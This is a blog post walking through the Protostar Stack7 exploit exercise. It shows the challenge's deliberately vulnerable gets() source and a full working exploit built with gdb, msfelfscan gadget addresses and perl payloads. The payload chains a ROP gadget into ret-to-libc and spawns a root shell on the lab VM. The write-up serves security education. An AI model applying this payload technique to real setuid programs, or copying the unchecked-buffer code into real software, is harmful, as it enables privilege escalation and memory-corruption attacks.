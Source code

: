```yaml
---
layout: post
title:  "Protostar Stack7 challenge"
date:   2018-05-04 10:05:36 +0530
categories: exploit-exercises protostar stack7
---
```

[Stack7][stack7-link] is the last challenge in the [Protostar][protostar-link] series of challenges.
The source code for this challenge is below
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
    char buffer[64];
    unsigned int ret;
    printf("input path please: "); fflush(stdout);
    gets(buffer);
    ret = __builtin_return_address(0);
    if((ret & 0xb0000000) == 0xb0000000) {
        printf("bzzzt (%p)\n", ret);
        _exit(1);
    }
    printf("got path %s\n", buffer);
    return strdup(buffer);
}
int main(int argc, char **argv)
{
    getpath();
}
{% endhighlight%}
We see there is a check for return address `ret` starting with `0xb`. If we remember from our attempt at solving [stack6][stack6-proto-link] the return address check has further been broadened from addresses starting with `0xbf` to `0xb`. This would mean that we cannot use `Return to libc` technique to solve this challenge. Since the libc `system` and `exit` calls had addresses starting with `0xb` we cannot use them in this challenge. This challenge description mentions using `return to .text`. A quick google search pointed to this being a sort of `return oriented programming` technique. Now it had been some time since I had studied about `ROP` so this [coursera-rop-video][courser-rop-video-link] was a nice refresher on basics of the technique.
I used `metasploit` to find the location of `gadgets` to be used for `ROP`. I copied the executable of stack7 to ubuntu machine where `metasploit` was installed for finding the address of gadgets.
{% highlight shell%}
VirtualBox:~$ msfelfscan --help
Usage: /opt/metasploit-framework/bin/../embedded/bin/msfelfscan [mode] <options> [targets]
Modes:
    -j, --jump [regA,regB,regC]      Search for jump equivalent instructions
    -p, --poppopret                  Search for pop+pop+ret combinations
    -r, --regex [regex]              Search for regex match
    -a, --analyze-address [address]  Display the code at the specified address
    -b, --analyze-offset [offset]    Display the code at the specified offset
Options:
    -A, --after [bytes]              Number of bytes to show after match (-a/-b)
    -B, --before [bytes]             Number of bytes to show before match (-a/-b)
    -D, --disasm                     Disassemble the bytes at this address
    -I, --image-base [address]       Specify an alternate ImageBase
    -h, --help                       Show this message
{% endhighlight%}
Since `poppopret` type gadgets were used in video tutorial link i tried to search executable for them.
{%highlight shell%}
VirtualBox:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
{%endhighlight%}
So we have three poppopret gadgets available to us. Let us use first one at `0x08048492`. So our return address will be `0x08048492` this time. Since this gadget has two `pop` instructions, the next two values in payload will be popped to respective registers and next value will be our next return address.
So payload should look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][next RET addr]`. Lets check if we're correct in `protostar` VM image.
{%highlight shell%}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 . "D"x4 . "E"x100 ' > payload
user@protostar:~$ gdb /opt/protostar/bin/stack7
(gdb) r < payload
Starting program: /opt/protostar/bin/stack7 < payload
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCCDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info r
eax            0x804a008    134520840
ecx            0x0  0
edx            0x1  1
ebx            0x42424242   1111638594
esp            0xbffff7dc   0xbffff7dc
ebp            0x43434343   0x43434343
esi            0x0  0
edi            0x0  0
eip            0x44444444   0x44444444
eflags         0x210202 [ IF RF ID ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb) x/10s $esp
0xbffff7dc:  'E' <repeats 100 times>
0xbffff841:  ""
0xbffff842:  ""
0xbffff843:  ""
0xbffff844:  "\020b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:  ""
0xbffff853:  ""
0xbffff854:  "\020\204\004\b"
0xbffff859:  ""
0xbffff85a:  ""
{%endhighlight%}
`info r` shows that `$ebx` register has been overwritten with B, `$ebp` has been with C and `$eip` the instruction pointer has been overwritten with DDDD ie `0x44444444`.
Since this value was used as return address we get a `SIGSEGV`.
Also `x/10s $esp` shows us that `$esp` now points to EEEE.... 
Now since we have passed the check for `RET` address we can user `ret-to-libc` technique further complete the exploit.
So we have space after second RET too. So if we want to implement this exploit using shellcode we can either put our shellcode where we have placed AAA or we can place it after second RET. Also we can try placing our shellcode in an enviromment variable and returning to it.
Repeating steps for [Stack6][stack6-my] we create an environemtn variable and get its address when running `stack7` and also get address of `system` and `exit` calls for `ret-to-libc`
{%highlight shell%}
user@protostar:~$ export EGG="/bin/sh"
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack7
EGG will be at 0xbffffa02
user@protostar:~$ gdb /opt/protostar/bin/stack7 
(gdb) b main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 
Breakpoint 1, main (argc=1, argv=0xbffff784) at stack7/stack7.c:28
28  stack7/stack7.c: No such file or directory.
    in stack7/stack7.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
%endhighlight%}
So now our payload shall look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][system][exit][/bin/sh]`
Using perl to create payload combining `ROP` and `ret-to-libc` we are able to successfully spwan a shell
{%highlight shell%}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 ."\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > payload
user@protostar:~$ (cat payload; cat) | /opt/protostar/bin/stack7
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCC�����`�����
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{%endhighlight%}
[stack7-link]:https://exploit-exercises.com/protostar/stack7/
[protostar-link]:https://exploit-exercises.com/protostar/
[stack6-proto-link]:https://exploit-exercises.com/protostar/stack6/
[courser-rop-video-link]:https://www.youtube.com/watch?v=XZa0Yu6i_ew
[stack6-my]: https://rawatm.github.io/security/protostar/2018/04/22/protostar-exploit-exercises-stack6/